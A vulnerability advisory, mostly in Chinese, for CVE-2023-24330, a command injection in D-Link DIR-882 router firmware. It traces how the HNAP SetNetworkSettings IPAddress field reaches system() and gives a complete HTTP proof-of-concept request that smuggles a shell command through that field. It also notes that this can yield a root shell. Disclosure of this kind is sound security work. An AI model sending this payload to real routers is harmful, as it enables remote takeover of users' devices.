 # dlink dir 882路由器 存在命令注入漏洞 - CVE-2023-24330

## 写在前面

A command injection vulnerability was discovered in the D-Link DIR-882 firmware version DIR882A1_FW130B06, allowing remote attackers to execute arbitrary commands on the device.

Vendor/Product: D-Link DIR-882 (DIR882A1_FW130B06)

Vulnerability Type: Remote Command Execution

Impact: Code execution, Escalation of Privileges

Discoverer: caoyebo

• 厂商信息：https://www.dlink.com/

• 固件下载地址：https://tsd.dlink.com.tw/ddgo

## 1.影响版本

![image-20220914231359311](img/image-20220914231359311.png)

图1为固件版本信息

## 2.漏洞细节

![image-20220914231503977](img/image-20220914231503977.png)

程序通过/SetNetworkSettings/IPAddress获取到的内容传递给v6

![image-20220914231514093](img/image-20220914231514093.png)

之后将v6通过sprintf函数格式化进v39，通过system函数执行v39中的内容，存在命令注入漏洞

## 复现与POC

为了重现该漏洞，可遵循以下步骤

使用fat 仿真固件DIR882A1_FW130B06.bin

使用以下poc进行攻击

```jsx
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "<http://purenetworks.com/HNAP1/SetNetworkSettings>"
HNAP_AUTH: 3FD4E69D96091F37A00F8FEC98928CB5 1649128376185
Content-Length: 633
Origin: <http://81.70.52.167:7018>
Connection: close
Referer: <http://81.70.52.167:7018/Network.html>
Cookie: SESSION_ID=2:1556825615:2; uid=LeaHzVaQ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="<http://www.w3.org/2001/XMLSchema-instance>" xmlns:xsd="<http://www.w3.org/2001/XMLSchema>" xmlns:soap="<http://schemas.xmlsoap.org/soap/envelope/>">
<soap:Body>
<SetNetworkSettings xmlns="<http://purenetworks.com/HNAP1/>">
	<IPAddress>&& ls > /tmp/456 &&echo 1</IPAddress>
	<SubnetMask>255.255.255.0</SubnetMask>
	<DeviceName>dlinkrouter3</DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart>1</IPRangeStart>
	<IPRangeEnd>254</IPRangeEnd>
	<LeaseTime>10080</LeaseTime>
	<Broadcast>false</Broadcast>
	<DNSRelay>true</DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

![image-20220914231555487](img/image-20220914231555487.png)

图2 POC攻击效果

最后，您可以编写exp，这可以实现获得根shell的非常稳定的效果

 ![image-20220914231626945](img/image-20220914231626945.png)

 